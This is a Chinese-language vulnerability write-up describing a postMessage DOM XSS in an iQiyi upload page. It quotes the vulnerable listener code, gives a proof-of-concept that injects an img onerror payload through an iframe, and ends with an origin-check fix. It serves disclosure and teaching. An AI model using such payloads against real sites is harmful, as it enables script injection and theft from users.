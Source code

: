 ```
提交给漏洞盒子。过了一个礼拜，说我的复现步骤写的不详细。访问漏洞页面，已经404。厂商已经偷偷修复。

upload.html 第208-223行，存在xss漏洞的方法
	
	window.addEventListener('message', function(e) {
				clearTimeout(timeout);
	            if (e.data.code == 'A00000') {
					$('#loading').addClass('hide');
	                $('#imgSrc').attr('src', e.data.data.url);
	                $('#msg').html(e.data.data.message);
					var share = successShare[e.data.data.star];
					shareLink = 'http://new.cms.iqiyi.com/page!preview.action?pageId=3043979&photoId=' + e.data.data.photoId;
					shareTitle.splice(0, shareTitle.length, e.data.data.message);
					shareText.splice(0, shareText.length, share.shareText);
					sharePic.splice(0, sharePic.length, share.sharePic);
	                $('#page5').removeClass('hide');
	            } else {
	                location.href = 'http://new.cms.iqiyi.com/page!preview.action?pageId=3043981';
	            }
	        }, false);

这是H5中跨域信息传递的方法，该方法没有验证来源域，同时```$('#msg').html()```方法未过滤

存在漏洞的函数：
	
	$('#msg').html(e.data.data.message);

传入 $('#msg') 的值 e.data.data.message 未经过滤 就直接写入 html


我开始时写的poc：
	
	window.postMessage({code:'A00000',data:{message:alert(location.href)}}, 'http://www.iqiyi.com/common/upload.html');

这个有点问题， alert() 弹出的是当前域，可以用  注入标签 img src onerror方法注入到漏洞页面。
这时候 alert的就是 漏洞页面的 信息。

构造poc 

	<script type="text/javascript">
	function a(){
	var a = document.getElementById('frame').contentWindow;
	a.postMessage({
	code:'A00000',
	data:{
	message: '<img src=1 onerror=alert(document.domain)>'
	}
	}, 'http://www.iqiyi.com');
	}
	</script>

修复建议:

对 消息的来源进行过滤，限制只能接受 iqiyi.com 发来的消息等。

	window.addEventListener('message', function(e) { 
	
	if (e.origin !== "http://www.iqiyi.com") return;}